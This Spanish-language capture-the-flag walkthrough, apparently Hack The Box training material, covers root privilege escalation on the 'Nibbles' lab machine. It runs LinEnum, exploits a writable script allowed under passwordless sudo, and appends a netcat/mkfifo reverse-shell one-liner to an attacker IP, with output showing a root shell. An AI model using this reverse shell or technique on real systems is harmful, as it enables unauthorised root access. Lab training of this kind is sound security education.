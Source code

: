 Ahora que tenemos una conexión shell inversa, es hora de aumentar los privilegios. Podemos descomprimir el archivo `personal.zip` y ver un archivo llamado `monitor.sh`.

~~~
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
~~~

El shell script `monitor.sh` es un script de monitoreo, y es propiedad de nuestro usuario `nibbler` y se puede escribir.

~~~
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
 ~~~

 Dejemos esto a un lado por ahora y extraigamos [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) para realizar algunas comprobaciones automáticas de escalada de privilegios. Primero, descargue el script a su VM de ataque local o Pwnbox y luego inicie un servidor HTTP de `Python` usando el comando `sudo python3 -m http.server 8080`.

 ~~~
 Juceco@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
~~~

De vuelta en el tipo de destino `wget http://<your ip>:8080/LinEnum.sh` para descargar el script. Si tiene éxito, veremos una respuesta de `200 success` en nuestro servidor HTTP de Python. Una vez que se extrae la secuencia de comandos, escriba `chmod +x LinEnum.sh` para hacer que la secuencia de comandos sea ejecutable y luego escriba `./LinEnum.sh` para ejecutarlo. Vemos un montón de resultados interesantes, pero lo que inmediatamente llama la atención son los privilegios de `sudo`.

~~~
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
~~~

El usuario de `nibbler` puede ejecutar el archivo `/home/nibbler/personal/stuff/monitor.sh` con privilegios de root. Dado que tenemos control total sobre ese archivo, si agregamos un reverse shell de una sola línea al final y ejecutamos con `sudo`, deberíamos obtener un shell inverso como usuario raíz. Editemos el archivo `monitor.sh` para agregar una sola línea de reverse shell.

~~~
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
~~~

Si buscamos el archivo `monitor.sh`, veremos el contenido anexado al final. `Es crucial si alguna vez nos encontramos con una situación en la que podamos aprovechar un archivo editable para escalar privilegios. Solo agregamos al final del archivo (después de hacer una copia de seguridad del archivo) para evitar sobrescribirlo y causar una interrupción`. Ejecute el script con `sudo`:

~~~
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
~~~

Finalmente, captura el root shell en nuestro oyente `nc` en espera.

~~~
Juceco@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
~~~

Desde aquí, podemos agarrar el indicador `root.txt`. Finalmente, ahora hemos resuelto nuestra primera maquina sobre HTB. Trate de replicar todos los pasos por su cuenta. Pruebe varias herramientas para lograr el mismo efecto. Podemos utilizar muchas herramientas diferentes para los distintos pasos necesarios para resolver esta maquina. Este tutorial muestra un método posible. Asegúrate de tomar notas detalladas para practicar ese conjunto de habilidades vitales.




